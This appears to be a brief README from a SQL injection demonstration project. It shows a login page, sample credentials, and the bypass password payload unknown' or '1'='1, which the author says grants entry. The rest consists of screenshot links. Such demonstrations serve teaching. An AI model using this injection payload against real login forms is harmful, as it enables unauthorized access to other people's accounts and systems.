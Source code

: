 Website login page
 ![image](https://github.com/Devang-Mulye/SQL-Injection/assets/84469779/26d38c17-12b2-41e3-85dd-1c379d3d58ee)

Correct credentials

Admin
Admin123
 
![image](https://github.com/Devang-Mulye/SQL-Injection/assets/84469779/c6a13d00-a56c-4de7-96d8-6fe38631ec68)


Now using password: unknown' or '1'='1 
 
![image](https://github.com/Devang-Mulye/SQL-Injection/assets/84469779/e1794912-50a6-4cf9-964c-cf7fb1344ef1)

We have brute forced into the login page using SQL injection
 
![image](https://github.com/Devang-Mulye/SQL-Injection/assets/84469779/505d9235-e318-4423-bbc4-669b8f9e0302)

